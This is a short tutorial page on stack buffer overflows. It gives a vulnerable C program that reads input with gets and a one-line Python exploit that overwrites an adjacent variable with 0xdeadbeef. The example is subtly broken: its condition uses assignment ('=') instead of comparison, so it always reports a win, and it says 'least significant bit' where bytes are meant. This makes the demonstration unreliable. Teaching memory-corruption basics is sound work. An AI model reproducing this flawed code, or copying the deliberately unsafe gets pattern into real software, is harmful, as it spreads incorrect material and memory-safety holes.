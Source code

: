 ```yaml
---
layout: page
title: Buffer Overflow
---
```



# Stack Based Buffer Overflow

## Memory Corruption
Modifying memory of a binary in a way that was not intended.

### Buffer Overflow
A buffer overflow occurs when data is written beyond the allocated memory space, thus corrupting adjacent memory. 
#### Common Causes:
- Unsafe functions: These functions do not perform any bounds checking when writing to a fixed-size buffer. These functions include:
	- strcpy
	- gets
	- sprintf

#### Impact:
- Arbitrary Code Execution (if return address is overwritten)
- Denial of service.
- Data corruption

### Example

```c
int main() {
	int x;
	char buffer[32];
	gets(buffer);
	if (x = 0xdeadbeef) {
		puts("You win.");
	} else {
		puts("You lose.");
	}	
	return 0;
}
```

Stack before gets function

![Stack Before Overflow](../../../assets/images/basic-bof.jpg)


if we enter more than 32 bytes the x variable will be overwritten. So we have to enter 32 bytes that will fill the buffer and then another 4 `0xdeadbeef` to overwrite x


Stack after the gets function

![](../../../assets/images/basic-bof1.jpg)

`0xdeadbeef must be in least significant bit`

> exploit :  
```sh
python -c 'print("A"*32+"\xef\xbe\xad\xde")' | ./vuln
```

